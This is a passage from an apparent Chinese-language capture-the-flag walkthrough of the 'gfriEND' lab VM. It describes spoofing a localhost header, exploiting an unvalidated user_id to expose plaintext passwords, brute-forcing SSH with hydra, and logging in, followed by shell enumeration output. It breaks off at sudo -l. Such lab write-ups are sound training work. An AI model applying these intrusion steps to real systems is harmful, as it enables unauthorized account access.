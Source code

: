 - 将两个文件夹中的文件全部下载之后，查看全部都是空文件... 

- 根据主页提示将请求头设置为`localhost`

- ![image-20230818183708317](https://raw.githubusercontent.com/r0o983/images/main/202308181837372.png)

- 注册任意账号登录后可以看到`user_id`为12，尝试修改`user_id`,发现这里并没有做任何验证，以及用户密码都是直接显示在前台处

- ![image-20230818203400446](https://raw.githubusercontent.com/r0o983/images/main/202308182034517.png)

- 由于我们的用户id为12，猜测前面应该有11个用户信息，全部采集后使用hydra进行爆破登录ssh

- ![image-20230818204134772](https://raw.githubusercontent.com/r0o983/images/main/202308182041815.png)



### 获得初始shell

- 使用`hydra`破解得到的账号密码来进行登录，`alice && 4clic3`

- ```shell
  └─$ ssh alice@192.168.2.7                                           
  alice@192.168.2.7's password: 
  Last login: Fri Dec 13 14:48:25 2019
  alice@gfriEND:~$ uname -a
  Linux gfriEND 4.4.0-142-generic #168~14.04.1-Ubuntu SMP Sat Jan 19 11:26:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  alice@gfriEND:~$ id
  uid=1000(alice) gid=1001(alice) groups=1001(alice)
  alice@gfriEND:~$ ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
      link/ether 00:0c:29:49:17:22 brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.7/24 brd 192.168.2.255 scope global eth0
         valid_lft forever preferred_lft forever
      inet6 fe80::20c:29ff:fe49:1722/64 scope link 
         valid_lft forever preferred_lft forever
  alice@gfriEND:~$ cd /home/
  aingmaung/      alice/          eweuhtandingan/ sundatea/       
  alice@gfriEND:~$ cd /home/
  alice@gfriEND:/home$ cd alice/
  alice@gfriEND:~$ ls -lhai
  total 32K
   21088 drwxr-xr-x 4 alice alice 4.0K Dec 13  2019 .
      12 drwxr-xr-x 6 root  root  4.0K Dec 13  2019 ..
   21128 -rw------- 1 alice alice   10 Dec 13  2019 .bash_history
   21090 -rw-r--r-- 1 alice alice  220 Dec 13  2019 .bash_logout
   21089 -rw-r--r-- 1 alice alice 3.6K Dec 13  2019 .bashrc
   21126 drwx------ 2 alice alice 4.0K Dec 13  2019 .cache
  142082 drwxrwxr-x 2 alice alice 4.0K Dec 13  2019 .my_secret
   21091 -rw-r--r-- 1 alice alice  675 Dec 13  2019 .profile
  alice@gfriEND:~$ sudo -l
  Matching Defaults entries for alice on gfriEND:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  